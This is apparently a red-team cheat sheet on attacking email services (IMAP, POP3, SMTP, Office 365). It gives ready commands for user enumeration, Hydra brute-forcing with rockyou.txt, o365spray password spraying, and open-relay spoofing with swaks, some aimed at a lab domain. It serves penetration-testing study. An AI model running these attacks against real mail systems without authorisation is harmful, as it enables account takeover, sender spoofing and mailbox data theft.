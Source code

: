 ```yaml
---
title: "Attacking Common Services — IMAP & POP3"
tags: [attacking-common-services, imap, pop3, smtp, email, enumeration, brute-force, relay, o365]
tools: [nmap, dig, host, smtp-user-enum, hydra, o365spray, swaks, telnet, openssl]
---
```


# Email Services

## Summary
IMAP, POP3, and SMTP are commonly exposed services for corporate email infrastructure. Weak authentication, user enumeration, open relays, and password reuse make them valuable red team targets. Microsoft 365 tenants are particularly susceptible to password spraying due to widespread credential reuse.

---

## Records & MX Enumeration
Start by identifying mail records (MX, A) and associated servers.

```bash
# MX records
dig mx example.com

# A records for mail hosts
host -t A mail1.example.com
```

Useful: [MXToolbox](https://mxtoolbox.com/) to quickly resolve MX, SPF, DKIM, DMARC.

---

## Service Enumeration

### Nmap
```bash
nmap -sV -p110,143,993,995,25,465,587 <target>
```
- 110 = POP3
- 995 = POP3S (SSL)
- 143 = IMAP
- 993 = IMAPS
- 25/465/587 = SMTP

Check for STARTTLS support:
```bash
openssl s_client -connect <ip>:110 -starttls pop3
openssl s_client -connect <ip>:143 -starttls imap
openssl s_client -connect <ip>:25 -starttls smtp
```

---

## User Enumeration

### smtp-user-enum (Pentestmonkey)
```bash
# Install
perl -MCPAN -e shell
cpan> install Getopt::Std
wget https://github.com/pentestmonkey/smtp-user-enum/blob/master/smtp-user-enum.pl

./smtp-user-enum.pl -M RCPT -U users.list -D inlanefreight.htb -t 10.129.203.12
```
- Modes: `VRFY`, `EXPN`, `RCPT`
- `RCPT` is most reliable but noisier.

Example:
```text
10.129.203.12: marlin@inlanefreight.htb exists
```

### Manual with Telnet
```bash
telnet <ip> 25
VRFY user
RCPT TO:<user@example.com>
```

### O365spray
```bash
# Validate tenant
o365spray.py --validate --domain msplaintext.xyz

# Enumerate valid users
o365spray.py --enum -U users.txt --domain msplaintext.xyz
```

---

## Password Attacks

### Hydra brute-force POP3/IMAP
```bash
hydra -L users.txt -P rockyou.txt -f <ip> pop3
hydra -L users.txt -P rockyou.txt -f <ip> imap
```

### O365 Password Spraying
```bash
python3 o365spray.py --spray -U usersfound.txt -p 'Winter2025!' --count 1 --lockout 1 --domain msplaintext.xyz
```
Notes:
- Use a single password across many accounts.
- Respect lockout thresholds (default 5-10 in O365).

---

## Protocol Specifics

### Open Relay Abuse
```bash
nmap -p25 --script smtp-open-relay <ip>

swaks --from attacker@example.com --to victim@example.com \
--server <ip> --header 'Subject: Test' --body 'Relay abuse test'
```
- If open, attacker can spoof trusted senders.

### IMAP/POP3
- Plaintext authentication is common if STARTTLS not enforced.
- Stored emails may contain credentials, reset links, or sensitive data.

---

## Vulnerabilities & Exploits
- CVE-2020-7247 — OpenSMTPD < 6.6.2, remote command execution.
- Weak SSL/TLS ciphers, lack of STARTTLS enforcement.
- Plaintext storage of credentials in `.pst` or `.mbox` backups.

---

## Notes
- Always test IMAP/POP3 both with and without SSL — some clients downgrade.
- Use valid usernames to reduce noise when brute-forcing POP3/IMAP.
- Password spraying is more effective than brute-force in real environments (avoids lockouts).
- Open relay exploitation is rarely allowed in scope, but always report if detected.
- Dumping mailboxes (if access obtained) often yields VPN creds, cloud passwords, and PII.
